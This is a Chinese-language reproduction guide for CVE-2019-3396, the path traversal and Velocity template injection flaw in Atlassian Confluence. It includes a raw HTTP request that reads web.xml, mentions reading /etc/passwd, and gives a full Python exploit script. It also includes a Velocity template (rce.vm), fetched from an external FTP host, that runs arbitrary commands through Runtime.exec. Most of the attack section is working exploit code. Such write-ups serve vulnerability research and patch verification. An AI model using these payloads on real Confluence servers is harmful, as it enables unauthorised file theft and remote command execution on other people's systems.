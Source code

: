 （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
==================================================

一、漏洞简介
------------

Atlassian
Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

二、漏洞影响
------------

    Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

    Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

    Confluence 6.6.* < 6.6.12

    Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

    Confluence 6.12.* < 6.12.3

    Confluence 6.13.* < 6.13.3

    Confluence 6.14.* < 6.14.2

三、复现过程
------------

发送如下数据包，即可读取文件`web.xml`：

    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

![](resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId24.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId25.png)

### poc

> 首先需要一台外网的服务器

    1.使用FTP加载vm文件  
    2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
    3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"

> CVE-2019-3396.py

    # -*- coding: utf-8 -*-
    import re
    import sys
    import requests

    def _read(url):
        result = {}
        # filename = "../web.xml"
        filename = 'file:////etc/group'

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    def _exec(url,cmd):
        result = {}
        filename = "ftp://192.168.50.181/rce.vm"

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        print _exec(url,cmd)

> rce.vm

    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
        $scan.next()
    #end

参考链接
--------

> https://vulhub.org/\#/environments/confluence/CVE-2019-3396/
